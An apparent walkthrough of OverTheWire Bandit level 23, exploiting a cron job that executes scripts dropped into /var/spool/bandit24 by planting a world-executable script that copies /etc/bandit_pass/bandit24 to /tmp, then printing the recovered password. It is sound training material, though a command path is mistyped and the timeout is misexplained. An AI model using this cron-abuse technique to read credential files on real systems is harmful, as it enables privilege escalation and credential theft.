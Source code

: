 # Bandit Level 23

## Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

## Solution
First connect through secure shell using `bandit23` as username and the password found in level 22
`ssh bandit23@bandit.labs.overthewire.org -p 2220`

Enter password when prompted.

For this exercise all we need to do is check the `/etc/cron.d/` file as specified in the description in the Goal section.

For this we run the following command:

`ls /etc/cron.d/`

Output: 
```
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22       cronjob_bandit23       cronjob_bandit24       cronjob_bandit25_root  .placeholder
```

We can see there is a `cronjob_bandit24`. We inspect it by down the following:

`cat /etc/cron.d/cronjon_23`

Output:
```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh  &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh  &> /dev/null
```
We see that this cronjob executes `cronjob_bandit24.sh` when the machine starts up.

We inspect the contents of this script as follow:

`cat /usr/bin/cronjob_bandit24.sh`

Ouput:
```bash
#!/bin/bash
myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

This script tells us that there is a directory named `bandit24` in `/var/spool/` directory and the cronjon looks for any file that is not a `.` or `..` and then it checks if the owner is `bandit23` and if it is then it times out for 60 seconds and then execute the script. After execution it removes the script from the directory.

In order to get the password we will need to write a script that will fetch the password for us as follow:

```
# create a directory to work with
mkdir -p /tmp/myself
cd /tmp/myself
# create a file that will hold our script
touch pass_fetch.sh
# change persmission so that everyone can execute
chmod 777 pass_fetch.sh
# create a file that will hold the password
touch fetched_password
# change permission so that everyone can write to the file
chmod 666 fetched_password
```

Finally, we write the script which is as follow:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/myself/fetched_password
```

We then copy the scrip into `/var/spool/bandit24` as follow:

`cp pass_fetch.sh /var/spool/bandit24`

finally we wait 60 seconds

`sleep 60`

after it finished the wait we check if the `fetched_password` file has the contents

`cat fetched_password`

Output: 
`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`